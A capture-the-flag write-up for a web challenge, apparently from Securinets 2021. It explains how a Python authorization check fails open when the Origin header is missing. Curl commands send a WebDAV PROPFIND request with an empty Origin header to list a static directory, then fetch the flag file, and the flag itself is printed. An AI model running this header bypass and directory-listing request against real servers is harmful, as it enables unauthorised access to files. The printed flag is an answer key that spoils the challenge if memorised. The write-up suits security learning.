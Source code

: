 #### Challenge:

broken website :( !!

link:http://web2.q21.ctfsecurinets.com:5000/

[task1.zip](./task1.zip ":ignore")

---

#### Solution:

- inspecting the source code reveals that authorize check can be skipped via empty `Origin: ` header

```python
def is_authorized():

    origin = request.headers.get('Origin')
    if origin is None: 
        return True
    return verify_cookie(base64_encode(origin))
```

- the only implemented sections is for `PROPFIND` that is used for `WebDav` with this we can list files in applications directory

```bash
curl -i -X PROPFIND http://web2.q21.ctfsecurinets.com:5000/weeb/wtf/static/  \
    -H "Content-length: 0" \
    -H "Origin: " \
    -H "Depth: 1" \
    --upload-file - <<EOF
<?xml version="1.0" encoding="utf-8" ?>
<D:propfind xmlns:D="DAV:">
<D:allprop/>
</D:propfind>
EOF
curl http://web2.q21.ctfsecurinets.com:5000/static/FlAAaaaAGxe.wtf
```

---

<details><summary>FLAG:</summary>

```
securinets{0ld_SchO0l_SHit:p}
```

</details>
<br/>

